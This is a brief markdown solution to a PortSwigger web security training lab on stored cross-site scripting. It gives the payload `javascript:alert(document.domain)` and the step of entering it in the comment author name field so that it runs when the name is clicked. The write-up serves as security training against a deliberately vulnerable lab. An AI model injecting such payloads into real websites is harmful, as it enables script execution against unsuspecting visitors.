


# Lab: Stored XSS into anchor `href` attribute with double quotes HTML-encoded

## This lab contains a [stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the comment functionality. To solve this lab, submit a comment that calls the `alert` function when the comment author name is clicked.

### payload `<a href="javascript:alert(document.domain)">`

---

### step 1



submit form



payload is

```javascript
<a href="javascript:alert(document.domain)">
```

use `javascript:alert(document.domain)` into input name field

and submit
